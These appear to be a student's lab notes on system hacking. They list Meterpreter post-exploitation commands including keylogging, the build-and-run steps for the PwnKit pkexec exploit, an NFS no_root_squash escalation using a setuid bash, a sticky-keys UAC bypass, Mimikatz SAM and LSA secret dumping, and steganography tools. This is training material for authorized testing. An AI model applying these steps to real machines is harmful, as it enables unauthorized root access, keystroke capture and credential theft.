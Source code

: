 ### Hack a Windows Machine using Metasploit and perform post-exploitation using Meterpreter
- Using steps from previous lab and after getting a Meterpreter session.
  - *sysinfo, getuid, search -f FILE, keyscan_start, keyscan_dump, shell, dir /a:h, sc queryex type=service state=all, wmic*

### Escalate privileges by exploiting vulnerability in pkexec
- PwnKit: CVE-2021-4034
- https://github.com/berdav/CVE-2021-4034
  ```
  git clone https://github.com/berdav/CVE-2021-4034.git
  cd CVE-2021-4034
  make
  ./cve-2021-4034
  ```
### Escalate privileges in Linux machine by exploiting misconfigured NFS
- TCP/2049 nfs_acl
- In victim:
  - Install **nfs-kernel-server**
  - Add **/home *(rw,no_root_squash)** to **/etc/exports**
  - Restart **nfs-kernel-server**
- Install **nfs-common**
- List shares: ```showmount -e [TARGET_IP]``` or ```nmap -sV --script=nfs-showmount [TARGET_IP]```
- Mount: ```mount -t nfs [TARGET_IP]:/[SHARED_FOLDER] /tmp/share```
- Copy bash: ```cp /bin/bash /tmp/share && chmod +s /tmp/share/bash```
- Go to victim (via ssh for example) and execute ```bash -p``` on the [SHARED_FOLDER]

###  Escalate privileges by bypassing UAC and exploiting sticky keys
- Elevating on Windows 11 and replacing sticky keys with a elevated cmd

###  Escalate privileges to gather hashdump using Mimikatz
- After having a privileged Meterpreter session
  - *load kiwi*
  - *lsa_dump_sam*
    - Load NTLM Hash of all users
  - *lsa_dump_secrets*
    - LSA secrets that contain User password, IE passwords, service account passwords, SQL passwords.
  - *password_change -u Admin -n NTLM_HASH -P NEW_PASSWORD*

### Hide data using white space steganography
- Hide content
  - **snow -C -m "MESSAGE" -p "PASSWORD" ORIGINAL_FILE NEW_FILE**
- Reveal content
  - **snow -C -p "PASSWORD" NEW_FILE**

### Image steganography using OpenStego and StegOnline
 - **OpenStego**: Hide/Extract
 - **StegOnline**: https://stegonline.georgeom.net
